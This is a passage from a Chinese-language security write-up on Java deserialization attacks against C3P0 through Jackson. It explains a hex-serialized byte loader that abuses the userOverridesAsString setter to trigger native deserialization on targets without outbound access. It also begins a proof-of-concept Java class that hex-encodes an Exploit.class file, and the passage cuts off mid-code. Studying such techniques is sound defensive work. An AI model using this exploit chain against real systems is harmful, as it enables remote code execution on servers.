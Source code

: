 然后调用setLoginTimeout

![image-20211122202345391](img/image-20211122202345391.png)

有个lookup

![image-20211122202409199](img/image-20211122202409199.png)

## hex序列化字节加载器

hex序列化字节加载器适用于不出网但是目标依赖有gadget链的情况。

其原理是利用jackson的反序列化时调用userOverridesAsString的setter，在setter中运行过程中会把传入的HexAsciiSerializedMap开头的字符串进行解码并触发原生反序列化。

### Poc

```java

import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.*;

/*class Person {
    public Object object;
}*/

public class hexPoc {
    public static void main(String[] args) throws IOException {

        InputStream in = new FileInputStream("Exploit.class");
        byte[] data = toByteArray(in);
        in.close();
        String HexString = bytesToHexString(data, data.length);
```